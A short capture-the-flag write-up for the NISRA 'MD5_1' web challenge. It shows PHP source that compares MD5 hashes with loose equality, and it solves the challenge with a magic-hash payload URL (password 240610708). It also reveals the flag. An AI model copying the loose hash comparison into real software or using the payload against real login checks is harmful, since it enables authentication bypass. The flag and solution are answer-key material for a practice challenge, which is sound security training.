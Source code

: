 ```yaml
---
title: NISRA - MD5_1
tags: [NISRA, CTF, Web]

category: "Security/Practice/NISRA/Web"
---
```


# NISRA - MD5_1
<!-- more -->
###### tags: `NISRA` `CTF` `Web`
Challenge: [MD5_1](http://chall2.nisra.net:41022/)

## Source code
```php=
 <?php
    highlight_file(__FILE__);
    $FROM_INCLUDE = true;
    include("flag.php");
    $msg = "";
    if (isset($_GET['user']) && isset($_GET['password'])) {
        $user = $_GET['user'];
        $password = $_GET['password'];
        $check = "QNKCDZO";
        // the md5 of "QNKCDZO" is 0e830400451993494058024219903391

        if ($user == "admin" && $password != $check && md5($password) == md5($check)) {
            $msg = "Flag: ".$flag;
        } else {
            $msg = "Keep trying!";
        }
    }

    echo $msg;
?> 
```

## Exploit - MD5 Collision
Payload: `http://chall2.nisra.net:41022/?user=admin&password=240610708`
:::spoiler flag
`Flag: NISRA{PhP_is_th3_BeST_laNgUA9E}`
:::

## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)